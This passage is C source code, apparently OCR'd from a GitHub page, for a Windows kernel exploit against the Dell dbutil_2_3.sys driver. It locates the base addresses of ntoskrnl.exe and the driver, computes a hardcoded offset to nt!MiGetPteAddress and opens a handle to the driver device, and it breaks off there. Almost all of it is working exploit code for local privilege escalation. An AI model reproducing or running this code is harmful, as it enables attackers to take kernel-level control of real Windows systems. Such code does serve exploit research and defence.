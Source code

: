 ```c
    lpImageBase,
    sizeof(lpImageBase),
    &lpcbNeeded
  );

  // Error handling
  if (!baseofDrivers)
  {
    printf("[-] Error! Unable to invoke EnumDeviceDrivers(). Error: %d\n", GetLastError());
    exit(1);
  }

  // Defining number of drivers for GetDeviceDriverBaseNameA()
  drivers = lpcbNeeded / sizeof(lpImageBase[0]);

  // Parsing loaded drivers
  for (int i = 0; i < drivers; i++)
  {
    GetDeviceDriverBaseNameA(
      lpImageBase[i],
      lpFileName,
      sizeof(lpFileName) / sizeof(char)
    );

    // Keep looping, until found, to find user supplied driver base address
    if (!strcmp(name, lpFileName))
    {
      imageBase = (unsigned long long)lpImageBase[i];

      // Exit loop
      break;
    }
  }

  return imageBase;
}


void exploitWork(void)
{
  // Store the base of the kernel
  unsigned long long baseofKernel = kernelBase("ntoskrnl.exe");

  // Storing the base of the driver
  unsigned long long driverBase = kernelBase("dbutil_2_3.sys");

  // Print updates
  printf("[+] Base address of ntoskrnl.exe: 0x%llx\n", baseofKernel);
  printf("[+] Base address of dbutil_2_3.sys: 0x%llx\n", driverBase);

  // Store nt!MiGetPteAddress+0x13
  unsigned long long ntmigetpteAddress = baseofKernel + 0xbafbb;

  // Obtain a handle to the driver
  HANDLE driverHandle = CreateFileA(
    "\\\\.\\DBUtil_2_3",
    FILE_SHARE_DELETE | FILE_SHARE_READ | FILE_SHARE_WRITE,
    0x0,
    NULL,
    OPEN_EXISTING,
    0x0,
    NULL
  );
```